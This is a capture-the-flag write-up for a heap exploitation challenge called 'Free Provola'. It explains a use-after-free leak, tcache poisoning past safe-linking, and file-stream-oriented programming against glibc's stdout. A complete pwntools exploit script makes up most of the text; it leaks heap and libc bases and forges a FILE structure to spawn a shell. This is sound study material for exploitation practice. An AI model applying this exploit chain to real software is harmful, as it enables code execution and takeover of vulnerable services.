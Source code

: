 # Free Provola

*Author: Carixo*

---

## 1. Challenge Recap

We are given a menu‑driven “Provola review” program that lets users add, list, edit and delete provola reviews. Each review is stored in heap memory as a `Provola` structure:

```c
typedef struct Provola {
    char name[64];      /* provola name                 */
    int  rating;        /* 1-10                         */
    char *review;       /* heap pointer to review text  */
    int  review_length; /* review size                  */
} Provola;
```

### Menu actions

|  | Action     | What it does                                                                                             |
| -- | ---------- | -------------------------------------------------------------------------------------------------------- |
| 1  | **Add**    | Allocates a new struct, copies the name/rating and allocates a separate `review` buffer (≤ 0x800 bytes). |
| 2  | **List**   | Prints every non‑`NULL` entry with `printf("%d. %s …")` and `puts(p->review)`.                           |
| 3  | **Delete** | Frees `p->review` and the struct **but never clears the array slot**, leaving a dangling pointer.        |
| 4  | **Edit**   | Reads nnew review into the *existing* review buffer, using `review_length` as the limit.                         |

### Vulnerabilities

1. **Use‑After‑Free leak** - Listing after deletion dereferences a freed chunk.
2. **Tcache poisoning** - Because the global array still holds the pointer, we can edit it and write an arbitrary (safe‑linked) `next` pointer into the tcache free list.
3. **FSOP (File‑Stream Oriented Programming)** - By overwriting the struct at `_IO_2_1_stdout_` with a  forged `FILE` object, we can hijack execution flow to `system("/bin/sh")`.

---

## 2. Exploit Strategy

1. **Heap setup**
   Create three reviews (by creating three provolas), then free them in the order 0 → 2 → 1.  Use a big `review_length` for review 0 so the large buffer goes to the unsorted‑bin, while the other two fit tcache.
2. **Leak heap & LIBC**
   Listing the provolas, will print provola 0, which includes:
    - forward‑pointer of tcache chunk (will be the name of the provola) → heap base
    - unsorted‑bin `bk` (the text in `review`) → LIBC base
3. **Tcache poisoning**
   With `edit_review` overwrite the `next` pointer of the second free chunk with the safe‑linked address of `_IO_2_1_stdout_`. Allocate once more so that the pointer of `_IO_2_1_stdout_` is next in the tcache list.
4. **Forge `FILE`**
   The next allocation returns a chunk over `stdout`. Overwrite the `stdout` struct with the FSOP payload.
5. **Trigger**
   When `stdout` is used again, a shell will be spawned.

---

## 3. Full Exploit Script

```py
from pwn import *

con = "127.0.0.1 1234"

host, port = con.replace(" ", ":").split(":")

ssl = False

binary = './provola'

gdbscript = '''
    c
'''

elf  = context.binary = ELF(binary)
libc = context.binary.libc
context.terminal = ['tmux', 'splitw', '-h']



# utils
u64 = lambda d: struct.unpack("<Q", d.ljust(8, b"\0"))[0]
u32 = lambda d: struct.unpack("<I", d.ljust(4, b"\0"))[0]
u16 = lambda d: struct.unpack("<H", d.ljust(2, b"\0"))[0]

# credits to spwn by @chino
ru         = lambda *x, **y: p.recvuntil(*x, **y, drop=True)
rl         = lambda *x, **y: p.recvline(*x, **y, keepends=False)
rc         = lambda *x, **y: p.recv(*x, **y)
sla        = lambda *x, **y: p.sendlineafter(*x, **y)
sa         = lambda *x, **y: p.sendafter(*x, **y)
sl         = lambda *x, **y: p.sendline(*x, **y)
sn         = lambda *x, **y: p.send(*x, **y)
logbase    = lambda: log.info("libc base = %#x" % libc.address)
logleak    = lambda name, val: log.info(name+" = %#x" % val)
ls         = lambda x: log.success(x)
lss        = lambda x: ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))
one_gadget = lambda: [int(i) + libc.address for i in subprocess.check_output(['one_gadget', '--raw', '-l1', libc.path]).decode().split(' ')]

# exit_handler stuff
fs_decrypt = lambda addr, key: ror(addr, 0x11) ^ key
fs_encrypt = lambda addr, key: rol(addr ^ key, 0x11)


# heap stuff
prot_ptr = lambda pos, ptr: (pos >> 12) ^ ptr
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val


def start(argv=[], *a, **kw):
    if args.GDB: return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: return remote(host, port, ssl=ssl)
    else: return process([elf.path] + argv, *a, **kw)


def add_review(name, rating, review, review_len=0):
    sla(b'> ', b'1')
    sla(b'name: ', name)
    sla(b'rating (1-10): ', str(rating).encode())
    sla(b'2048): ', str(review_len) if review_len != 0 else str(len(review)+1).encode())
    sla(b'review: ', review)


def list_reviews(idx):
    sla(b'> ', b'2')
    ru(b"%d. " % idx)
    name = ru(b' - rating: ').strip()
    ru(b'review:\n')
    review = rl().strip()
    return name, review


def delete_review(idx):
    sla(b'> ', b'3')
    sla(b'id to delete: ', str(idx).encode())

def edit_review(idx, review):
    sla(b'> ', b'4')
    sla(b'edit: ', str(idx).encode())
    sla(b':', review)

p = start()

add_review(b'provola', 10, b'best provola ever', 2000)
add_review(b'provola2', 9, b'second best provola', 0x200)
add_review(b'provola3', 8, b'third best provola', 0x200)

delete_review(0)
delete_review(2)
delete_review(1)

heap_leak, libc_leak = list_reviews(0)

heap_base = u64(heap_leak) << 12
libc_leak = u64(libc_leak) << 8

libc.address = libc_leak - 2112256

lss("heap_base")

logbase()
edit_review(1, p64(prot_ptr(heap_base + 0xb40, libc.sym._IO_2_1_stdout_)))



add_review(b'provola4', 10, b'fourth best provola', 0x200)

stdout_file_lock = libc.address + 2119440
stdout = libc.sym._IO_2_1_stdout_
fake_vtable = libc.sym._IO_wfile_jumps - 0x18

filestruct = FileStructure(0)
filestruct.flags = 0x3b01010101010101
filestruct._IO_read_end = libc.sym.system
filestruct._IO_save_base = libc.address + 0x00000000001724f0 # add rdi, 0x10 ; jmp rcx
filestruct._IO_write_end = u64(b'/bin/sh')
filestruct._lock = stdout_file_lock
filestruct._codecvt = stdout + 0xb8
filestruct._wide_data = stdout + 0x200
filestruct.unknown2 = p64(0) * 2 + p64(stdout + 0x20) + p64(0) * 3 + p64(fake_vtable)


add_review(b'provola5', 9, bytes(filestruct), 0x200)

p.interactive()
```